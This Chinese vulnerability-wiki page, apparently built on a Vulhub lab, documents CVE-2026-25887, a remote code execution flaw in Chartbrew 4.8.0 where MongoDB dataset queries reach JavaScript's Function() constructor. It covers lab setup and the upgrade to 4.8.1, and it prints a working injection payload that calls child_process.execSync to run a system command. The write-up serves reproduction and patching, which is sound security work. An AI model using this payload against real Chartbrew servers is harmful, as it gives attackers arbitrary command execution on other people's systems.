



# Chartbrew MongoDB 数据集查询远程代码执行漏洞 CVE-2026-25887

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：已认证且可创建数据集；4.8.0实验、<4.8.1影响；MongoDB连接可用；Node服务权限
- 证据范围：查询输入进入Function构造器；明确role和修复AST校验

### 本次正文校订

- 按实际内容修正 1 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- P0目录误归MongoDB：根因在Chartbrew报表应用，不是MongoDB数据库
- 实验容器输出root不能推广所有部署
- '4.8.1以上'应明确含4.8.1，与正文修复版本一致
- 首次注册成为管理员是实验初始化，不是利用必须管理员

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

[Chartbrew](https://github.com/chartbrew/chartbrew) 是一个开源的报表平台，可以连接数据库和 API 来构建和分享实时数据仪表盘。

在 Chartbrew 4.8.0 版本中，`ConnectionController.js` 的 `runMongo` 函数将用户提交的 MongoDB 数据集查询直接传入 JavaScript 的 `Function()` 构造器，未做任何校验或过滤。拥有创建数据集权限的已认证用户可以通过 MongoDB 查询输入注入任意 JavaScript 代码，在 Node.js 进程上下文中实现远程代码执行。该漏洞在 4.8.1 版本中通过引入基于 AST 的查询校验修复。

参考链接：

- https://github.com/chartbrew/chartbrew/security/advisories/GHSA-x4r6-prmw-7wvw
- https://nvd.nist.gov/vuln/detail/CVE-2026-25887

## 漏洞影响

```
Chartbrew < 4.8.1
```

## 环境搭建

Vulhub 执行如下命令启动 Chartbrew 4.8.0 服务：

```shell
docker compose up -d
```

服务启动后，访问 `http://your-ip:4018` 即可看到 Chartbrew 的 Web 界面，API 服务地址为 `http://your-ip:4019`。

如果你在远程服务器或虚拟机上运行该环境，需要通过 `CB_HOST` 环境变量指定服务器 IP 地址，使前端能正确访问 API：

```
CB_HOST=your-ip docker compose up -d
```




## 漏洞复现

首先，打开 Chartbrew 的 Web 界面并注册一个新账号，第一个注册的用户将成为管理员。登录后，按照引导创建一个新项目。在 `Step 1:Select your datasource type` 中选择 MongoDB，在 `Step 2: Connect to your data source` 中，输入连接字符串 `mongodb://mongodb:27017/vulhub`，连接到本环境中的 MongoDB 服务。




保存连接后，进入 "Datasets" 页面，使用该 MongoDB 连接创建一个新的数据集。在查询编辑器中，输入以下恶意查询，利用 `child_process.execSync` 执行任意系统命令：

```
version + (function(){ try { const r = global.process.mainModule.require('child_process'); return r.execSync('id').toString(); } catch(e) { return e.toString(); } })()
```

点击 "Run query" 后，右侧结果面板将显示 `id` 命令的输出，证明可以在服务器上以 root 身份执行任意命令。




## 漏洞修复

- 更新至 Chartbrew 4.8.1 以上或最新版。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
